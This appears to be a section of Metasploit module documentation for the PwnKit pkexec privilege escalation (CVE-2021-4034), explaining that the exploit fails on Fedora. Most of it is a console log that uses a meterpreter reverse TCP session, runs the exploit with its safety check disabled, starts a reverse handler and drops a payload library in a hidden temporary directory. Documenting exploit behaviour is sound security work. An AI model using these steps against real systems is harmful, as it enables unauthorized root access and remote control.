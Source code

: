 Source: https://www.ramanean.com/script-to-detect-polkit-vulnerability-in-redhat-linux-systems-pwnkit/

### Fedora:

Fedora should be vulnerable, and the pkexec binary will respond like it is vulnerable, but
the exploit will fail.  I don't know why, but it still fails with SELinux disabled or using the
original PoCs that compiled a binary on target.  The check method just bails if it sees Fedora.

```
msf payload(linux/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : Fedora 33 (Linux 5.8.15-301.fc33.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > shell
Process 2396 created.
Channel 5 created.
sestatus
SELinux status:                 disabled
exit
meterpreter > background
[*] Backgrounding session 1...
msf payload(linux/x64/meterpreter/reverse_tcp) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set session 1
session => 1
msf exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set verbose true
verbose => true
msf exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set auto
set autocheck                 set autorunscript             set autounhookprocess         
set autoloadstdapi            set autosysteminfo            set autoverifysessiontimeout  
msf exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set autoCheck false
autoCheck => false
msf exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > check

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Checking for pkexec
[*] Checking for /usr/bin/pkexec
[*] Found pkexec here: /usr/bin/pkexec
[*] Found pkexec version 0.117
[*] The target is not exploitable. Fedora is not supported
msf exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 10.5.135.101:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Checking for pkexec
[*] Checking for /usr/bin/pkexec
[*] Found pkexec here: /usr/bin/pkexec
[*] Creating directory /tmp/.wqogdpzub
[*] /tmp/.wqogdpzub created
[*] Writing '/tmp/.wqogdpzub/kfmlrhrqi/kfmlrhrqi.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.wqogdpzub
```